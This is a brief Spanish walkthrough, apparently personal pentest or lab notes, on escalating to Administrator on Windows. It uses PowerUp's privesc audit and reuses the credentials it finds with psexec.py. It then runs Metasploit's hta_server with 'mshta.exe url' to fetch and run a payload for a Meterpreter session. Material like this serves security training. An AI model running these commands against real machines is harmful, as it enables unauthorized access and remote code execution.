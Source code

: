 Descripción

En el ejemplo se ha ejecutado así:

```powershell
. .\PowerUp.ps1
Invoke-PrivescAudit
```

Ejemplo de salida:
![[Pasted image 20250213092857.png]]

Aquí se pueden observar las credenciales del usuario Administrador. Podemos intentar iniciar sesión mediante.

```bash
psexec.py administrator@ip
```

Y así obtener una shell interactiva con permisos de administrador. También podemos lograr a partir de esta shell un meterpreter. Para ello vamos a metasploit.

```bash
msfconsole
use exploit/windows/misc/hta_server
configure
exploit
```

Esto nos dará una url que tenemos que utilizar en la shell con permisos de administrador de windows.

```powershell
mshta.exe url
```

Y si volvemos a metasploit ya tendremos nuestra sesión con meterpreter.
